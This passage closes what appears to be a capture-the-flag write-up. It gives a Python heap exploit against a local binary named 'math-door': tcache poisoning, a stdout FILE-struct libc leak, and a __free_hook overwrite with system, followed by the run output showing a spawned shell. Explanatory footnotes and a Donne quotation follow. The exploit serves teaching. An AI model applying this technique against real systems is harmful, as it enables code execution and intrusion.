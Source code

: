 ```python

# Fill the tcache bin by freeing seven times the same chunk
for _ in range(7):
    delete(2)
    edit(2, p64(0) + p64(1) + p64(0)) # Prevent double free detection
# Free another time and send it to the unsorted bin
delete(2)

# Make fwd pointer in our chunk (which points to libc) point to stdout's struct
edit(2, p64(0xad0) + p64(0) * 2)

create()
create() # idx = 11, should return a pointer to stdout's struct

# Edit stdout and leak!
edit(11, p64(2**64 - 0x203) + p64(0) + p64(2**64 - 0x203))
libc = int.from_bytes(p.read(6), "little") - 0x1b5fd9
system = libc + 0x52290
print("Libc: 0x%012x" % libc)

delete(6)
# 0x20 bin already pointing to fake chunk in libc
# because the "chunk" allocated in idx 11 pointed to another place in libc
edit(6, p64(0x1725 - 8) + p64(0) * 2) # Fd points to __free_hook - 8

create()
create() # idx = 13, pointer to __free_hook - 8

edit(13, p64(0x68732f6e69622f) + p64(system) + p64(0))
delete(13) # Trigger ...

p.interactive() # ... and shell
```
```
❯ python a.py
[+] Starting local process './math-door': pid 37337
Libc: 0x7f87008fd000
[*] Switching to interactive mode
$ whoami
arget
```
Now, I have been sitting for too long, I *really* need to take a leak.

Y.

> Any man's death diminishes me, because I am involved in mankind, and therefore never send to know for whom the bells tolls; it tolls for thee.  

<figcaption>— John Donne, <cite>Meditation XVII</cite>.</figcaption>

## Notes
<span id="1"><a href="#1_"><sup>1</sup></a> Because trying to unlink the chunk, `malloc()` will dereference its `bck` pointer, which we made NULL when we took it from the tcache (remember the `key` field?).</span>

<span id="2"><a href="#2_"><sup>2</sup></a> As long as it is at an address lower than `_IO_write_ptr` or we would try to `write()` a negative number of bytes, *i. e.* a large amount.</span>
